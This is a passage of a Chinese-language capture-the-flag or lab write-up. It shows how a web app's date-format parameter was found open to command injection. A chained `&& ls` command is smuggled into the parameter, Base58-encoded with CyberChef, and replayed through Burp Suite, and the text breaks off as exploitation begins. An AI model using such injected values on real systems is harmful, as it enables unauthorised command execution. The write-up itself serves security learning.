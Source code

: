 ```
'+Today is %A, %B %d, %Y %H:%M:%S.'
```

看到明文这样的格式，想到了Linux的date命令

```
date
```

date后添加明文内容

```
date '+Today is %A, %B %d, %Y %H:%M:%S.'
```

![image-20211103152932781](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211103152932781.png)

**猜测当访问Web程序URL时，服务端使用的是这条操作系统指令，那么是否可以用符号连接执行命令注入呢？**

```
date '+Today is %A, %B %d, %Y %H:%M:%S.' || ls  #不可行
```

```
date '+Today is %A, %B %d, %Y %H:%M:%S.' && ls #可行
```

![image-20211103153232194](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211103153232194.png)

结合之前的URL，服务端能执行的内容必须是Base58编码之后的格式

故使用CyberChef将&&ls转为Base58编码形式

![image-20211103153344923](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211103153344923.png)

```
得到：&&ls   --Base58编码-->   yZSGA
```

BurpSuite:

```
--Repeater内将format参数值替换为yZSGA-->Send重放
```

![image-20211103153429917](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211103153429917.png)

成功接受到服务端响应-->返回当前目录下的文件信息-->**确认存在命令注入漏洞**

---

## 三、漏洞利用

### 1.利用思路

如何利用命令注入漏洞？-->**尝试查看用户可执行文件目录（/bin）**-->看是否有可利用点

CyberChef:
